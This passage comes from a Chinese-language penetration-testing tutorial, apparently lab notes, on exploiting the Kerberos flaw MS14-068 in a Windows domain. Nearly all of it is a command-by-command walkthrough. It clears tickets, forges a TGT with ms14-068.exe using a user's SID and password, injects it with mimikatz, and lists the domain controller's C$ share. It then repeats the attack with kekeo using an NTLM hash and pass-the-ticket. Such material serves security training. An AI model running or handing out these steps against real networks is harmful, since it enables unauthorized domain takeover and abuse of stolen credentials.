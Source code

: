 ```shell
 klist //查看当前机器凭证
 klist purge//清空当前机器中所有凭证
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-10.png)



3.利用 ms14-068 生成 TGT 数据

```shell
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
.\MS14-068.exe -u mary@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.3.21 -p admin!@#45
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-11.png)

4.票据注入内存

```shell
./mimikatz.exe 
kerberos::ptc TGT_mary@god.org.ccache
exit
```

5.查看凭证列表 klist

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-12.png)

6.利用

```shell
dir \\192.168.3.21\c$
dir \\OWA2010CN-God.god.org\c$
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-13.png)

#### 第二种利用工具 kekeo

- 工具kekeo下载：https://github.com/gentilkiwi/kekeo/releases

1.生成票据

```shell
kekeo "tgt::ask /user:mary /domain:god.org /ntlm:518b98ad4178a53695dc997aa02d455c"
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-14.png)

2.导入票据

```shell
kerberos::ptt TGT_mary@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-15.png)
